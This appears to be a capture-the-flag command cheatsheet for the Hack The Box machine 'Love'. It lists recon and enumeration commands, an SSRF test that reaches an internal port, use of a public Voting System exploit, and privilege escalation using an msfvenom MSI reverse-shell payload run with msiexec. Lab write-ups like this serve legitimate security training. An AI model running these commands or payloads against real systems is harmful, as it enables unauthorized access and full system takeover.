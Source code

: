 # HTB: Love — Command Cheatsheet

## 📌 Box Info
- **Name:** Love
- **IP:** 10.10.10.245
- **OS:** Windows
- **Difficulty:** Easy

---

## 🔍 Recon
```bash
nmap -sV -sC -oA scan/result $IP
```
- Found services:
  - HTTP (80, 5000)
  - HTTPS
  - SMB
  - MySQL

Update `/etc/hosts`:
```bash
echo "$IP love.htb staging.love.htb" | sudo tee -a /etc/hosts
```

---

## 🕵️‍ HTTP Enumeration
```bash
gobuster dir --url "http://love.htb/" -w /usr/share/dirb/wordlists/small.txt -x php,txt,config -o http.txt
```
- Result: Nothing interesting found

Search for vulnerable software:
```bash
searchsploit "Voting System"
```
- Found exploit for PHP Voting System (needs credentials)

---

## 📉 Port 5000
- Access denied (403)

---

## 📃 HTTPS Certificate
- View for domain/subdomain info

---

## 📢 staging.love.htb (HTTP)
- Has a URL input field
- Test for SSRF:

```http
GET / HTTP/1.1
Host: staging.love.htb
...
Input URL: http://127.0.0.1:5000
```
- ✅ SSRF Works

---

## 🔨 Exploitation
Copy exploit:
```bash
searchsploit -m 49445.py
```
Edit and run exploit to leverage SSRF and gain access.

---

## 🥵 Privilege Escalation
- Upload **WinPEAS** for local enumeration.
- Detected: `msiexec` install privileges ✅

Generate reverse shell payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=tun0 lport=9002 -f msi -o exploit2.msi
```

Upload to target, then execute:
```bash
msiexec /quiet /qn /i exploit2.msi
```

---

## ✅ Root Access
- Reverse shell received with NT AUTHORITY privileges

---

## 📑 Summary
- Used SSRF on subdomain to reach an internal service
- Exploited a vulnerable Voting System
- Privilege escalation via MSI installation permissions